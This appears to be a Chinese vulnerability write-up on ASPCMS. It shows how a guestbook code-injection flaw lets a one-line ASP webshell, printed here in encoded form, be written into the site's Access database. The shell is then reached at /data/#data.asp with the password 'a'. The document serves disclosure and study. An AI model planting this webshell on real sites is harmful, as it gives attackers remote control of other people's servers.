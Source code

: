 

参考:

- [ASPCMS留言板插马 ---- wooyun-2012-06628](http://localhost/wooyun/bug_detail.php?wybug_id=wooyun-2012-06628)
- [aspcms后台备份逻辑错误导致被注入一句话木马](http://localhost/wooyun/bug_detail.php?wybug_id=wooyun-2015-0161687)

#### 详细说明

aspcms主要是信息发布系统，影响版本为asp。漏洞成因，在留言板处对信息处理不当，导致代码注入。可直接将一句话木马插入数据库。

众所周知，对以xxx.asp命名的access数据库，只要插入著名的一句话:

```
┼攠數畣整爠煥敵瑳∨≡┩愾
```
![](images/3.jpg)

数据库默认配置为asp.目录在/data/#data.asp下。访问该asp即可得到webshell

这样就往数据库中插入了一句话，密码为a

```
http://192.168.48.1:8003/data/%23data.asp  pass:a
```

![](images/1.jpg)
![](images/2.jpg)

